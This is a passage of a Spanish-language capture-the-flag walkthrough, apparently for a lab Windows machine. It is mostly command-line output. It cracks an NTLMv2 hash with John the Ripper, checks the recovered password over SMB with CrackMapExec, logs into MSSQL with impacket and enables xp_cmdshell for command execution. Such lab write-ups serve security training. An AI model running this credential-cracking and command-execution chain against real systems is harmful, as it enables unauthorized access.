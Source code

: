 - Ahora vamos a crackear el hash para ver la contraseña en texto plano.

```bash
➜  content john -w:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
corporate568     (mssql-svc)
1g 0:00:00:42 DONE (2024-04-05 13:48) 0.02369g/s 212247p/s 212247c/s 212247C/s correforenz..corococo
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

- Vamos a validar que la contraseña es valida.

```bash
➜  content crackmapexec smb 10.129.67.247 -u 'mssql-svc' -p 'corporate568' --local-auth
SMB         10.129.67.247   445    QUERIER          [*] Windows 10.0 Build 17763 x64 (name:QUERIER) (domain:QUERIER) (signing:False) (SMBv1:False)
SMB         10.129.67.247   445    QUERIER          [+] QUERIER\mssql-svc:corporate568
```

- Como el usuario se llama `mssql-svc` nos podemos conectar a `mssql` también.

```bash
➜  content impacket-mssqlclient WORKGROUP/mssql-svc@10.129.67.247 -windows-auth
Impacket v0.11.0 - Copyright 2023 Fortra

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(QUERIER): Line 1: Changed database context to 'master'.
[*] INFO(QUERIER): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232)
[!] Press help for extra shell commands
SQL (QUERIER\mssql-svc  dbo@master)>
```

- Ahora simplemente tenemos que habilitarlo para poder usar el `xp_cmdshell`.

```bash
SQL (QUERIER\mssql-svc  dbo@master)> xp_cmdshell "whoami"
[-] ERROR(QUERIER): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell' of component 'xp_cmdshell' because this component is turned off as part of the security configuration for this server. A system administrator can enable the use of 'xp_cmdshell' by using sp_configure. For more information about enabling 'xp_cmdshell', search for 'xp_cmdshell' in SQL Server Books Online.
```

- Vemos que ahora cambia a 1 ya podemos usarlo.

```bash
SQL (QUERIER\mssql-svc  dbo@master)> enable_xp_cmdshell
[*] INFO(QUERIER): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
[*] INFO(QUERIER): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (QUERIER\mssql-svc  dbo@master)>
```
